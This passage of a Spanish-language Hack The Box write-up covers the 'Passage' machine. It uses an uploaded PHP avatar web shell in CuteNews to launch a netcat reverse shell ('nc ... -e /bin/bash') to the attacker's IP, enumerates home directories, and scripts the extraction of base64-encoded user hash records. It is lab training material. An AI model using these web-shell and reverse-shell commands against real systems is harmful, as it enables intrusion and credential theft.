 ![206page80_cutenews_rcewithavatar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_rcewithavatar.png)

Perfecto, tenemos ejecución de comandos remotamente, generemos una reverse shell (: Pongamonos en escucha y despues hacemos la petición:

```bash
–» rlwrap nc -nlvp 4433
listening on [any] 4433 ...
```

```html
http://10.10.10.206/CuteNews/uploads/avatar_lanz_ejeje.php?xmd=nc 10.10.14.142 4433 -e /bin/bash
```

```bash
connect to [10.10.14.142] from (UNKNOWN) [10.10.10.206] 39636
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@passage:/var/www/html/CuteNews/uploads$ ls
ls
avatar_lanz_ejeje.php
www-data@passage:/var/www/html/CuteNews/uploads$ 
```

Listos, ahora a enumerar (:

* En la maquina tenemos dos usuarios: `paul` y `nadav`.

```bash
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 Jul 21 10:43 .
drwxr-xr-x 23 root  root  4096 Jul 21 10:44 ..
drwxr-x--- 17 nadav nadav 4096 Dec 13 14:11 nadav
drwxr-x--- 16 paul  paul  4096 Sep  2 07:18 paul
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls /home/nadav
ls /home/nadav
ls: cannot open directory '/home/nadav': Permission denied
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls /home/paul
ls /home/paul
ls: cannot open directory '/home/paul': Permission denied
www-data@passage:/var/www/html/CuteNews/cdata/users$
```

...

En los archivos que tenemos sobre la ruta `/CuteNews` nos encontramos con `/cdata/users/lines`:

![206page80_cutenews_linesfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/passage/206page80_cutenews_linesfile.png)

Tenemos cadenas en formato `base64`, pasémoslas a texto legible, podemos crear un script sencillo que nos haga la tarea:

```bash
–» cat extractusers.sh 
#!/bin/bash

url="http://10.10.10.206/CuteNews/cdata/users/lines"

#Hay otras lineas en formato php, pero las que nos interesan son las que empiezan con Y.
curl -s $url | grep -E "^Y" > hashes.txt

while read -r line; do
  #Decodeamos y mostramos
  echo "$line" | base64 -d ; echo; echo
done < hashes.txt

```